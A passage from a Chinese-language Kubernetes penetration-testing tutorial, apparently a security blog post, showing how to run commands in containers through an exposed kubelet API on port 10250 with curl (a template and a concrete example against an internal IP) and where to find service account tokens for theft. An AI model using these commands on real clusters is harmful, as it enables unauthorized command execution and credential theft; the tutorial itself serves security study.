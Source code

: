 [![](assets/1699842580-8821cfdbddac18897e82eae8450a0257.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170847-1b1e44d6-7316-1.png)  
Step 3：执行命令  
可以通过一下命令再在对应的容器里执行命令：

```plain
#格式说明
curl -k -XPOST "https://k8s-node-1:10250/run/%namespace%/%pod_name%/%container_name%" -d "cmd=ls -la /"

#执行实例
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=ls -la /"
```

[![](assets/1699842580-799b7ab4a0bc9c25778f1d366a82c891.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170909-285474fe-7316-1.png)  
Step 4：检索Token信息  
默认情况下Token保存在/var/run/secrets/kubernetes.io/serviceaccount/token
